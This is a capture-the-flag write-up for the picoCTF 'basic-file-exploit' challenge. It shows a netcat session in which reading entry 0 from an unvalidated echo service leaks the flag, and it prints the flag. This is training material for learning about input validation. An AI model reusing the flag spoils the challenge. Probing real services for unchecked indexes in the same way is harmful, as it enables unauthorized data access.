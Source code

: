 # basic-file-exploit

## Descripcion
The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it! Connect to the program with netcat: `$ nc saturn.picoctf.net 50959` The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/141/program-redacted.c).

## Pistas
- Try passing in things the program doesn't expect. Like a string instead of a number.

## Solución

```
eltetor14-picoctf@webshell:~$ wget https://artifacts.picoctf.net/c/141/program-redacted.c
--2023-05-27 20:47:35--  https://artifacts.picoctf.net/c/141/program-redacted.c
Resolving artifacts.picoctf.net (artifacts.picoctf.net)... 108.156.172.120, 108.156.172.74, 108.156.172.42, ...
Connecting to artifacts.picoctf.net (artifacts.picoctf.net)|108.156.172.120|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4202 (4.1K) [application/octet-stream]
Saving to: 'program-redacted.c'

program-redacted.c                              100%[======================================================================================================>]   4.10K  --.-KB/s    in 0s      

2023-05-27 20:47:35 (581 MB/s) - 'program-redacted.c' saved [4202/4202]

eltetor14-picoctf@webshell:~$ nc saturn.picoctf.net 50959
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
hector
hector
Please enter the length of your data:
6
6
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
1
1
hector
Read successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_E0394EC0}

```

## Bandera
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_E0394EC0}

## Notas adicionales

## Referencias